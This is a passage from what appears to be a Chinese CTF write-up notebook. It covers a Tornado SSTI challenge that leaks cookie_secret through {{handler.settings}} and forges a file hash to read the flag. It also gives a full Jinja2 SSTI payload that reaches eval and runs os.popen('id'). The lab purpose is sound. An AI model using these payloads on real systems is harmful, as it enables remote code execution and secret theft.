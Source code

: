 ![image-20250506161140447](D:\ctf wp\201-240.assets\image-20250506161140447.png)![image-20250506160924874](D:\ctf wp\201-240.assets\image-20250506160924874.png)

抓包查看传参形式![image-20250506161404266](D:\ctf wp\201-240.assets\image-20250506161404266.png)

url由filename和filehash构成 当只有前者时报错![image-20250506165303935](D:\ctf wp\201-240.assets\image-20250506165303935.png)

尝试注入error?msg={{handler.settings}}![image-20250506165622376](D:\ctf wp\201-240.assets\image-20250506165622376.png)

构造**/file?filename=/fllllllllllllag&filehash=md5(cookie_secret+md5(/fllllllllllllag))**

![image-20250506165956064](D:\ctf wp\201-240.assets\image-20250506165956064.png)



## 213.[Flask]SSTI

https://github.com/vulhub/vulhub/blob/master/flask/ssti/README.zh-cn.md

先看他的项目链接![image-20250506191629459](D:\ctf wp\201-240.assets\image-20250506191629459.png)

![image-20250506191033478](D:\ctf wp\201-240.assets\image-20250506191033478.png)![image-20250506191100175](D:\ctf wp\201-240.assets\image-20250506191100175.png)

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

![image-20250506191952807](D:\ctf wp\201-240.assets\image-20250506191952807.png)





## 214.[第三章 web进阶]SSTI

![image-20250506195613883](D:\ctf wp\201-240.assets\image-20250506195613883.png)

![image-20250506192708011](D:\ctf wp\201-240.assets\image-20250506192708011.png)假的

假的flag

ls后查看其他文件![image-20250506193032893](D:\ctf wp\201-240.assets\image-20250506193032893.png)





## 215.[ZJCTF 2019]NiZhuanSiWei
